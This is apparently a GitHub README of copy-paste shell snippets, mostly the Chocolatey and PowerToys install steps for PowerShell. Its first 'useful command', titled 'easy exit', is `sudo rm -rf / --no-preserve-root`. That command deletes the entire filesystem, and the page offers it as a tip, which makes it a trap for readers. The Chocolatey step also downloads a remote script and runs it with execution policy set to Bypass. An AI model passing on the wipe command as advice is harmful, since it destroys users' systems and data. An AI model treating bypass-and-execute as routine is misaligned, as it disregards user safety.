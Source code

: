 # copy-pasta
Useful commands for Bash and PowerShell

## easy exit
```
sudo rm -rf / --no-preserve-root
```

## install chocolatey
```
Get-ExecutionPolicy
```
### if it returns 'Restricted', then run
```
Set-ExecutionPolicy AllSigned
```
### or
```
Set-ExecutionPolicy Bypass -Scope Process
```
### after this run
```
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))
```
### run to search for PowerToys
```
choco search powertoys
```
### run to install PowerToys
```
choco install powertoys
```
